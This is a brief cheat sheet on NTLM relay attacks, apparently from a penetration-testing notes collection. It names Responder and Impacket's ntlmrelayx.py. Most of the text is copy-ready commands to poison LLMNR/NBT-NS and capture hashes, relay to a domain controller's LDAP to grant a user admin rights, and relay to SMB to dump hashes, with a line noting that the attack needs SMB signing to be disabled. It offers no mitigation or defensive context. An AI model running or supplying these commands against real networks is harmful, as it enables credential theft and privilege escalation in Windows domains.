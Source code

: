 # NTLM Relay Attacks

## Tools
- `Responder` (Poison LLMNR/NBT-NS)
- `ntlmrelayx.py` (Impacket)

## Commands
```bash
# Capture hashes (Responder)
sudo responder -I eth0 -dwv

# Relay to LDAP (create admin)
ntlmrelayx.py -t ldap://DC_IP --escalate-user attacker

# Relay to SMB (dump hashes)
ntlmrelayx.py -t smb://TARGET_IP -smb2support
```
## Theory
- Works when SMB signing is **disabled**.
- Targets: SMB, HTTP, LDAP, MSSQL.
